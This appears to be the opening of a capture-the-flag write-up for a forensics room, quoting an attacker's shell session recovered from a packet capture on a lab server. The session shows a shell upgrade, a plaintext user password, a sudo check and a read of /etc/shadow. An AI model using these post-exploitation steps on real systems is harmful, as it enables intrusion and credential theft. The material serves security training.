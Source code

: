 # Task 1 Forensics - Analyse the PCAP
----

>>Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

>>Can you work out how the attacker got in, and hack your way back into Overpass' production server?

>>Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing CC: Pentesting and Linux Fundamentals as a bare minimum.

>>md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

## ANALYSING THE PCAPPNG FILE :

>>Using wireshark to analayse the pcappng file.

```bash
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
```